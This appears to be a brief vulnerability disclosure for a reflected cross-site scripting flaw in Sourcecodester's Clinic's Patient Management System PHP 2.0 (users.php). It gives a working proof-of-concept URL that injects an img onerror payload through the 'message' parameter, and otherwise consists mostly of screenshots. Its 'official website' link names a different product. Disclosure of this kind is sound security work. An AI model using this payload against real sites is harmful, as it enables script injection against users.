 # Reflected XSS vulnerability was discovered in Sourcecodester's Clinic's Patient Management System - PHP 2.0 (message)
---

---
Affected Project: Sourcecodester Clinic's Patient Management System - PHP 2.0

Official Website: [Sourcecodester Clinic's Patient Management System](https://www.sourcecodester.com/php/17556/contact-manager-export-vcf-using-php-and-mysql-source-code.html)

Version: 2.0

Releted Code: users.php
*Line Number: 256-259*

![image](https://github.com/gurudattch/CVEs/blob/main/assets/14.png)

---

![image1](https://github.com/gurudattch/CVEs/blob/main/assets/15.png)

---

Add the XSS payload in **message** parameter

`http://192.168.95.115/users.php?message="><img src=x onerror=alert()>`

---

![image2](https://github.com/gurudattch/CVEs/blob/main/assets/16.png)
